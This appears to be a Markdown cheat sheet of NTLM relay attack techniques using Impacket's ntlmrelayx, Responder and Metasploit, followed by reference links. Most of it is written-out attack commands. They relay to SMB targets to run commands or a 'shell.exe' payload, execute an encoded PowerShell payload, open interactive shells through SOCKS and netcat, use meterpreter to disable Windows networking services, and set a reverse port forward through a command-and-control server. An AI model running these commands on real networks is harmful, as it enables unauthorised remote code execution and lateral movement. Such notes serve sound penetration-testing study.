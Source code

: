 # Impacket

## 01 - NTLMRelayX

### 1.2 - Usage

TODO: Fill more info

```
$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -c <commands>

$ sudo ntlmrelayx.py -tf targets.txt -smb2support -c <commands>

$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -e shell.exe

$ sudo ntlmrelayx.py -tf targets.txt -smb2support -e shell.exe
```

- NTLM Relaying

```
$ smbserver.py -smb2support -port 8445 share $(pwd)

$ ntlmrelayx.py -tf targets.txt -smb2support --no-http-server --no-wcf-server --no-raw-server
```

- Interactive shell with netcat

```
$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -socks

$ nc 127.0.0.1 <PORT>
```

### 1.3 - Use Cases

#### 1.3.1 - Callback Shell

- Modify in the Responder configuration file

`$ sudo nano /etc/responder/Responder.conf`

---

```
SMB=OFF
HTTP=OFF
```

- Start the Responder

```
$ sudo responder -I <interface> -rdw
```

Spawn callback shell

```
$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -e shell.exe

$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -c "powershell.exe -E <base64_encoded>"
```

Interactive shell with netcat

```
$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -i

$ nc 127.0.0.1 <PORT>
```

#### 1.3.2 - Proxychains via Relaying

##### 1.3.2.1 - Hijack Host and Setup MITM

Disable SMB to spoof the targets via proxychains

```
$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -socks

meterpreter > shell

C:\> sc stop netlogon

C:\> sc stop lanmanserver

C:\> sc config lanmanserver start=disabled

C:\> sc stop lanmanworkstation

C:\> sc config lanmanworkstation start=disabled

C:\> shutdown /r

C:\> exit
```

Add a reverse port forward to 445 to relay SMB attack via the command and control server (metasploit)

```
meterpreter > portfwd add -R -L <bind_target_IP> -l 445 -p 445
```

Revert back the settings.

```
meterpreter > shell

C:\> sc config lanmanserver start=auto

C:\> sc start lanmanworkstation

C:\> sc config lanmanworkstation start=auto

C:\> sc start netlogon
```

---
## References

- [AD Series: How to Perform Broadcast Attacks Using NTLMRelayx, MiTM6 and Responder](https://raxis.com/blog/ad-series-how-to-perform-broadcast-attacks/)

- [Tryhackme HOLO](https://stimpz0r.com/tryhackme-holo/)

- [How to Exploit Active Directory ACL Attack Paths Through LDAP Relaying Attacks](https://www.praetorian.com/blog/how-to-exploit-active-directory-acl-attack-paths-through-ldap-relaying-attacks/)

### Scenarios

#### Remote NTLM Relaying

- [DiabloHorn: Remote NTLM relaying through meterpreter on Windows port 445](https://diablohorn.com/2018/08/25/remote-ntlm-relaying-through-meterpreter-on-windows-port-445/)

- [Rasta Mouse: NTLM Relaying via Cobalt Strike](https://rastamouse.me/ntlm-relaying-via-cobalt-strike/)

- [Pentester's Promiscous Notebook: NTLM Relay](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ntlm/ntlm-relay)

#### MSSQL

- [Relaying NTLM to MSSQL](https://blog.compass-security.com/2023/10/relaying-ntlm-to-mssql/)